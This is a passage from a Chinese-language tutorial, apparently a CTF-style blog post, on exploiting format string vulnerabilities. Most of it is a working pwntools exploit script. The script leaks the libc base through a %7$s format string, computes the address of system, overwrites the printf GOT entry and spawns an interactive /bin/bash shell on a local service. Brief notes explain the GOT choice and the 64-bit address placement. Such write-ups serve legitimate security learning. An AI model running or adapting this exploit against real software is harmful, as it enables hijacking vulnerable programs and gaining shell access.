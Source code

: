 ```python
    # leak the elf contents
    # leak_elf()

    exp_file = remote("127.0.0.1", 10000)
    libc_file = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    context.bits = 64

    # leak base address of libc
    payload_1 = "%7$s" + ".aaa" + p64(0x601020)
    exp_file.sendline(payload_1)
    libc_addr = u64(exp_file.recv().split(".aaa")[0][:6] + "\x00"*2) - libc_file.symbols['read']
    system_addr = libc_addr + libc_file.symbols['system']
    log.info("libc_addr: {addr}".format(addr=hex(libc_addr)))
    log.info("system_addr: {addr}".format(addr=hex(system_addr)))

    # Change the address of printf_got using the format
    payload_2 = re_payload(0x601018, system_addr)
    exp_file.sendline(payload_2)
    exp_file.sendline("/bin/bash")
    exp_file.interactive()
    exp_file.close()


if __name__ == '__main__':
    main()
```

需要注意的是，这里我选择的是修改 `got` 表。

同时由于 `fmtstr_payload`  只能将地址放在前面，但是 `64` 的程序会存在字符串截断。

所以写了一个简单的函数 `re_payload` 将地址放在格式化字符后。





## 未完待续。。。

未完待续。。。



# 0x3 Reference

[https://zh.wikipedia.org/wiki/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2](https://zh.wikipedia.org/wiki/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2)

[https://www.cnblogs.com/prayer521/p/6139424.html](https://www.cnblogs.com/prayer521/p/6139424.html)